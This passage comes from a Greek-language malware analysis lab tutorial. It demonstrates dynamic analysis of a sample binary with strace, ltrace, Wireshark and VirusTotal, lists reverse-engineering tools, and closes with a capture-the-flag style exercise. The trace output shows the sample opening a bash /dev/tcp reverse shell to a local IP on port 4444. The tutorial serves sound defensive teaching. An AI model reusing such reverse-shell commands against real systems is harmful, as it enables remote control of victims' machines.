> 🔤 **Συμβουλή για εργαλεία:** Το `strace` παρακολουθεί κλήσεις *συστήματος* (π.χ. άνοιγμα αρχείων, δημιουργία διεργασιών), ενώ το `ltrace` κλήσεις *βιβλιοθηκών* (π.χ. `malloc`, `strlen`). Και τα δύο είναι ελαφριά και είναι συχνά το πρώτο βήμα όταν θέλουμε να δούμε τι "ακούει" ένα πρόγραμμα στο σύστημα.

Για να δούμε τις κλήσεις συστήματος που κάνει το δυαδικό αρχείο, μπορούμε να χρησιμοποιήσουμε το `strace` ως εξής:

```
$ strace ./main        
execve("./main", ["./main"], 0x7ffddfbd72d0 /* 57 vars */) = 0
brk(NULL)                               = 0x558fcb30e000

<SNIP>

clone3({flags=CLONE_VM|CLONE_VFORK, exit_signal=SIGCHLD, stack=0x7f9504944000, stack_size=0x9000}, 88) = 3874
munmap(0x7f9504944000, 36864)           = 0
rt_sigprocmask(SIG_SETMASK, [CHLD], NULL, 8) = 0
wait4(3874, bash: connect: Connection refused
bash: line 1: /dev/tcp/192.168.0.111/4444: Connection refused

<SNIP>

exit_group(0)                           = ?
+++ exited with 0 +++
```

Όπως φαίνεται, η πρώτη κλήση συστήματος γίνεται στην `execve` για να ξεκινήσει η εκτέλεση του δυαδικού αρχείου. Μετά από λίγες άλλες κλήσεις συστήματος, κάνει μια κλήση στην `clone3`, η οποία στη συνέχεια καλεί την `execve` για να εκτελέσει την εντολή reverse shell. Αν και δεν είναι ορατή στην παραπάνω έξοδο, μπορείτε να χρησιμοποιήσετε την επιλογή `-f` στο `strace` για να τη δείτε μόνοι σας.

> 💡 **Συμβουλή:** Το `strace` παράγει πολύ μεγάλη έξοδο — φιλτράρετέ τη με `grep` (π.χ. `strace ./main 2>&1 | grep -E "connect|execve"`). Προσοχή: οι κλήσεις εκτυπώνονται στο *stderr*, οπότε χωρίς το `2>&1` το `grep` δεν θα δει τίποτα.

Ομοίως, μπορούμε να χρησιμοποιήσουμε το `ltrace` για να δούμε τυχόν κλήσεις βιβλιοθηκών που κάνει το δυαδικό αρχείο:

```
$ ltrace ./main
bash: connect: Connection refused
bash: line 1: /dev/tcp/192.168.0.111/4444: Connection refused
--- SIGCHLD (Child exited) ---
+++ exited (status 0) +++
```

Αν και το συγκεκριμένο δυαδικό αρχείο δεν φαίνεται να κάνει καμία κλήση βιβλιοθήκης, αυτή η τεχνική είναι συχνά χρήσιμη — πολλά προγράμματα καλούν βιβλιοθήκες για δικτυακές επικοινωνίες, κρυπτογράφηση ή αποκρύψεις.

Ένας άλλος τρόπος να εκτελέσουμε δυναμική ανάλυση είναι να χρησιμοποιήσουμε το Wireshark για να παρακολουθήσουμε τη δίκτυακη κίνηση. Για να το κάνουμε αυτό, μπορούμε να ξεκινήσουμε τη συλλογή πακέτων και στη συνέχεια να εκτελέσουμε το δυαδικό αρχείο. Αυτό θα μας επιτρέψει να παρατηρήσουμε τυχόν δίκτυακες συνδέσεις που εγκαθιστά το δυαδικό αρχείο και να αναλύσουμε τα δεδομένα που στέλνονται και λαμβάνονται:



Μπορούμε να δούμε ότι το δυαδικό αρχείο προσπαθεί να εγκαταστήσει μια δίκτυακη σύνδεση reverse shell από το σύστημά μας με IP `192.168.0.106` προς τον κεντρικό υπολογιστή με IP `192.168.0.111` στη θύρα `4444`. Ωστόσο, η σύνδεση αποτυγχάνει καθώς ο άλλος υπολογιστής δεν ακροάζεται σε αυτή τη θύρα.

> 🔤 **Τι είναι Wireshark;** Ένα διάσημο (και δωρεάν) analyzer πακέτων δικτύου (packet analyzer) που δείχνει τα περιεχόμενα των συνδέσεων. Στη δυναμική ανάλυση malware χρησιμοποιείται για να εντοπίσει διευθύνσεις C2, ύποπτες θύρες και μοτίφας επικοινωνίας.

# Χρήση του VirusTotal

Μπορούμε επίσης να ανεβάσουμε τα δυαδικά αρχεία μας στο VirusTotal για να αποκτήσουμε πρόσθετες πληροφορίες για το αρχείο, όπως αν σχετίζεται με γνωστές οικογένειες malware ή αν έχει αναλυθεί προηγουμένως.

Ας δοκιμάσουμε να ανεβάσουμε το δυαδικό αρχείο που μόλις αναλύσαμε στο VirusTotal. Ενδιαφέρον, καμία από τις μηχανές αντιίων στο VirusTotal δεν εντοπίζει το αρχείο ως κακόβουλο, πιθανότατα επειδή δεν σχεδιάστηκε για να προκαλέσει ζημιά στο σύστημα.

Η αναλυτική ανάλυση του δυαδικού αρχείου μπορεί να βρεθεί στον ακόλουθο σύνδεσμο: [https://www.virustotal.com/gui/file/e084c637e31a1d280200c25af8e86959874178f041f2ec9492bf066e72578490/](https://www.virustotal.com/gui/file/e084c637e31a1d280200c25af8e86959874178f041f2ec9492bf066e72578490/detection)



Για σύγκριση, μπορούμε να αναφερθούμε στην ανάλυση VirusTotal του διαδεδομένου ransomware WannaCry που είναι διαθέσιμη στον ακόλουθο σύνδεσμο: [https://www.virustotal.com/gui/file/3ecc0186adba60fb53e9f6c494623dcea979a95c3e66a52896693b8d22f5e18b/](https://www.virustotal.com/gui/file/3ecc0186adba60fb53e9f6c494623dcea979a95c3e66a52896693b8d22f5e18b/)



> 📚 **Τι μας δείχνει αυτή η σύγκριση;** Ένα γνωστό, επιθετικό malware όπως το WannaCry εντοπίζεται από δεκάδες μηχανές αμέσως, ενώ ένα ήσυχο δείγμα — όπως το δικό μας — μπορεί να μην εντοπιστεί καθόλου. Το VirusTotal είναι εργαλείο *υποστήριξης* της έρευνας, όχι απόφασης· το τελικό συμπέρασμα προκύπτει πάντα από τη δική σας ανάλυση.

# Συμπέρασμα

Εν ολίγοις, εξερευνήσαμε τα βασικά της ανάλυσης malware και μελετήσαμε πώς να πραγματοποιήσουμε στατική ανάλυση και δυναμική ανάλυση χρησιμοποιώντας ορισμένες βασικές τεχνικές. Ωστόσο, είναι σημαντικό να σημειωθεί ότι υπάρχουν πολλά άλλα εργαλεία διαθέσιμα που θα μπορούσαν να χρησιμοποιηθούν, όπως:

- [Ghidra](https://ghidra-sre.org/)
- [Radare2](https://rada.re/n/)
- [IDA](https://hex-rays.com/ida-free/)
- [GDB](https://sourceware.org/gdb/)
- [Procmon](https://learn.microsoft.com/en-us/sysinternals/downloads/procmon)
- [Process Hacker](https://processhacker.sourceforge.io/)

Αυτά τα εργαλεία έχουν διάφορα χαρακτηριστικά που μπορούν να βοηθήσουν στην ανάλυση malware και να παράσχουν βαθύτερες πληροφορίες για τη συμπεριφορά του κακόβουλου λογισμικού. Για παράδειγμα, το Ghidra είναι ένα ισχυρό εργαλείο reverse engineering που μπορεί να χρησιμοποιηθεί για να κάνει disassemble και decompile δυαδικά αρχεία. Το Radare2 είναι ένα πλαίσιο (framework) reverse engineering ανοιχτού κώδικα που υποστηρίζει πολλαπλές αρχιτεκτονικές και τύπους αρχείων. Το IDA είναι ένας δημοφιλής disassembler και debugger που προσφέρει προηγμένα χαρακτηριστικά όπως cross-references και υπογραφές συναρτήσεων. Το GDB είναι ένας διαδεδομένος debugger για συστήματα Linux που επιτρέπει τον χαμηλού επιπέδου (low-level) έλεγχο σε προγράμματα σε εκτέλεση. Τα Procmon και Process Hacker μπορούν να χρησιμοποιηθούν για την παρακολούθηση της δραστηριότητας του συστήματος σε πραγματικό χρόνο, καθιστώντας τα χρήσιμα για τον εντοπισμό malware που προσπαθεί να αποκρύψει τη δραστηριότητά του.

> 💡 **Συμβουλή:** Για αρχάριους, ξεκινήστε με το Cutter λόγω του γραφικού του περιβάλλοντος· για βαθύτερη ανάλυση δοκιμάστε τη Ghidra ή το Radare2.

Ενώ έχουμε μόνο "γρατζουνίσει" την επιφάνεια της ανάλυσης malware σε αυτό το εργαστήριο, υπάρχουν πολλά πιο προηγμένα εργαλεία και μεθοδολογίες που μπορείτε να εξερευνήσετε.

> ⚠️ **Προσοχή — ηθική και νομιμότητα:** Η ανάλυση malware γίνεται πάντα σε απομονωμένο περιβάλλον και μόνο σε δείγματα που έχετε δικαίωμα να μελετήσετε· η κατοχή ή διάδοση κακόβουλου λογισμικού μπορεί να έχει νομικές συνέπειες.

# Ασκήσεις

Εργάζεστε για ένα χρηματοπιστωτικό ίδρυμα που μόλις δέχτηκε επίθεση malware. Φήμες υποδηλώνουν ότι ο επιτιθέμενος άφησε 4 διαφορετικά malware στο σύστημα, αλλά μόνο ένα από αυτά είναι πραγματικό, ενώ τα υπόλοιπα έχουν σχεδιαστεί ως rabbit holes για να σπαταλήσουν τον χρόνο σας.

Ευτυχώς, η πρώτη ομάδα που ανταποκρίθηκε κατόρθωσε να συλλέξει και τα 4 δείγματα. Η εργασία σας είναι να αναλύσετε καθένα από τα 4 δείγματα malware και να εξαγάγετε τυχόν χρήσιμες πληροφορίες από αυτά (προτιμώμενα μια flag).

Τα 4 αρχεία που πρέπει να αναλύσετε είναι διαθέσιμα στο [https://github.com/vonderchild/digital-forensics-lab/blob/main/Lab 07/files/tasks](https://github.com/vonderchild/digital-forensics-lab/blob/main/Lab%2007/files/tasks).
